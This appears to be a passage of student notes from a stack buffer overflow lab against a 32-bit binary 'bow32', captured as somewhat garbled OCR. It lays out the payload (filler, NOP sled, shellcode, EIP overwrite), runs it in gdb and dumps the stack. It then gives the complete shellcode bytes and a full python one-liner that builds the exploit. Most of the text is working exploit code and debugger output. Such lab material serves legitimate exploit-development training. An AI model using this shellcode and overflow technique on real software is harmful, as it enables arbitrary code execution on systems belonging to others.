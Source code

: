 #### Notes

  Notes

```shell-session
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'
```

#### Exploit with Shellcode

  Exploit with Shellcode

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()
```

Next, we check if the first bytes of our shellcode match the bytes after the NOPS.

#### The Stack

  The Stack

```shell-session
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>
```"\xba\xca\x8b\x27\xfa\xdb\xd0\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x12\x83\xe8\xfc\x31\x50\x0e\x03\x9a\x85\xc5\x0f\x2b\x41\xfe\x13\x18\x36\x52\xbe\x9c\x31\xb5\x8e\xc6\x8c\xb6\x7c\x5f\xbf\x88\x4f\xdf\xf6\x8f\xb6\xb7\x02\x7a\x46\x44\x7b\x78\x58\x51\x42\xf5\xb9\xd5\xd2\x55\x6b\x46\xa8\x55\x02\x89\x03\xd9\x46\x21\xf2\xf5\x15\xd9\x62\x25\xf5\x7b\x1a\xb0\xea\x29\x8f\x4b\x0d\x7d\x24\x81\x4e"








run $(python -c 'print("\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xba\xca\x8b\x27\xfa\xdb\xd0\xd9\x74\x24\xf4\x58\x31\xc9\xb1\x12\x83\xe8\xfc\x31\x50\x0e\x03\x9a\x85\xc5\x0f\x2b\x41\xfe\x13\x18\x36\x52\xbe\x9c\x31\xb5\x8e\xc6\x8c\xb6\x7c\x5f\xbf\x88\x4f\xdf\xf6\x8f\xb6\xb7\x02\x7a\x46\x44\x7b\x78\x58\x51\x42\xf5\xb9\xd5\xd2\x55\x6b\x46\xa8\x55\x02\x89\x03\xd9\x46\x21\xf2\xf5\x15\xd9\x62\x25\xf5\x7b\x1a\xb0\xea\x29\x8f\x4b\x0d\x7d\x24\x81\x4e" + "\x66" * 4)')



#### Character List

  Character List

```shell-session
```